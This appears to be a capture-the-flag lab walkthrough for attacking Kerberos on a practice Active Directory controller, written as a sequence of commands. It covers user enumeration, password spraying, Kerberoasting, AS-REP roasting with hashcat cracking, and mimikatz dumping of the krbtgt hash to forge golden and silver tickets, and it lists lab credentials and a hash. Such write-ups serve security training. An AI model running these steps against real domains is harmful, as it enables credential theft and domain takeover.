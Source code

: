## Machine Details
ipaddr=10.10.16.188

## Pre Reqs

### Install kerbrute (task 2)

1.) Download a precompiled binary for your OS - https://github.com/ropnop/kerbrute/releases
2.) Rename kerbrute_linux_amd64 to kerbrute
3.) chmod +x kerbrute - make kerbrute executable

### Install Impacket (task 4)

git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install -r requirements.txt
python3 setup.py install

## TASK 1

Simple anser the questions


## Task 2 - Enumeration w/ Kerbrute

### Edit hosts file
```bash
$IP controller.local
```
### Download the User.txt wordlist
```bash
wget https://raw.github.com/Cryilllic/Active-Directory-Wordlists/master/User.txt
```
### using kerbrute run the following
```bash 
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

Use info from the above command to answer questions

## Task 3 - Harvesting Tickets w/ Rubeus

RDP or ssh to $IP

$username = Administrator
$password = P@$$W0rd

```bash
cd Downloads
Rubeus.exe harvest /interval:30
```

Save output to a file for later reference

### Brute-Forcing / Password-Spraying

add to windows hosts file

```windows
echo $IP controller.local >> c:\Windows\System32\drivers\etc\hosts
```
Now run password spray with Rubeus
```bash
Rubeus.exe brute /password:Password1 /noticket
```

Save out to a file for later reference

User the info gather to answer the questions

## Task 4 - Kerberoasting w/ Rubeus & Impacket

### Kerberoasting w/ Rubeus

Still on the windows machine

```bash
cd Downloads
Rubeus.exe kerberoast
```

Copy the hashes to a file on your local machine.

Get the following wordlist

```bash
wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
```

Use hashcat to find the password.

The room tells you which mode to use, so no need to figure that out.

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```


### Impacket

Navigate to the examples directoy

run the following to dump the kerberos hash
```python
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip $IP -request
```

Use the hashes to crack the hash with hashcat as previous

Use the info gathered to answer the questions

## Task 5 - AS-REP Roasting w/ Rubeus

On the windows machine

```bash
cd Downloads
Rubeus.exe asreproast
```

save output as hash

add ```23$``` after ```$krb5asrep$``` so that the first line will be ```$krb5asrep$23$```

Use hashcat and the same wordlist as previously to crack those hashes

```bash
hashcat -m 18200 hash.txt Pass.txt
```

Use the info gathered to answer the questions.

## Task 6 - Pass the Ticket w/ mimikatz

Just read, try and understand.

## Task 7 - Pass the Ticket w/ mimikatz 

On the windows machine

```bash
cd Downloads
mimikatz.exe
```

In the mimikatz console
```
privilege::debug
```
Ensure response is 20 ok

dump the hash and sec id needed to create a golden ticket.
```
lsadump::lsa /inject /name:krbtgt
```

make note of SID and NTLM Hash (primary)


### Create a golden/silver ticket

create a silver ticket for SQLService 

```
lsadump::lsa /inject /name:SQLService
```
```
Kerberos::golden /user:SQLService /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103
```

Use info gathered/learned to answered the questions

## Kerberos Backdoors w/ mimikatz

Read and understand.